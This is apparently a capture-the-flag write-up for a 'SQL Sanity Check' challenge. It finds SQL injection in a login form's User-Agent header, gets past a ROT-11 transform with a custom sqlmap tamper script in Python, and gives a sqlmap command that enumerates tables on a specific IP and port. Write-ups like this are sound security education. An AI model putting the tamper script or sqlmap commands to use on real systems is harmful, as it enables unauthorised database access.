





SQL Sanity Check
===
* After reading the description, the possible injectable parameters should be email or user agent. Let's test:


* It looks like email is not injectable for sure, but for user agent there is still a chance, let's test with PostMan:

* Yeah, it is injectable, we've got a SQL error, but it looks like it is doing something strange with the input. After trying few inputs, we discover that it is encrypting with ROT-11. So, we should send the payload using ROT-15 to get plain text. This looks like a job for sqlmap tampering, let's write a script:
```
def encrypt(letter, key):

    # must be single alphabetic character
    if not letter.isalpha() or len(letter) != 1:
        return letter

    # convert to lowercase
    letter = letter.lower()

    # convert to numerical value 0 - 25
    # a = 0, b = 1, ... z = 25
    value = ord(letter) - 97

    # apply key, number of characters to shift
    value = (value + key) % 26

    # return encrypted letter
    return chr(value + 97)


def decrypt(letter, key):

    # must be single alphabetic character
    if not letter.isalpha() or len(letter) != 1:
        return letter

    # convert to lowercase
    letter = letter.lower()

    # convert to numerical value 0 - 25
    # a = 0, b = 1, ... z = 25
    value = ord(letter) - 97

    # apply key, number of characters to shift
    value = (value - key) % 26

    # return encrypted letter
    return chr(value + 97)


# number of characters to shift

def enc(key, plaintext):
    ciphertext = ''
    for letter in plaintext:
        ciphertext += encrypt(letter, key)
    return ciphertext

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    ret =  enc(15, payload)
    return ret
```
* Let's move the script in tamper folder of sqlmap and try again:

* We got it, it's injectable. Now, let's get the tables.
```
python2 sqlmap.py -u "http://89.38.210.129:8093/login.php" --user-agent="sqlmap*" --method POST --data="email=john.smith@timisoaractf.com" --tamper=rot --tables
```
* It outputs a lot, but in the end, we see what we want:

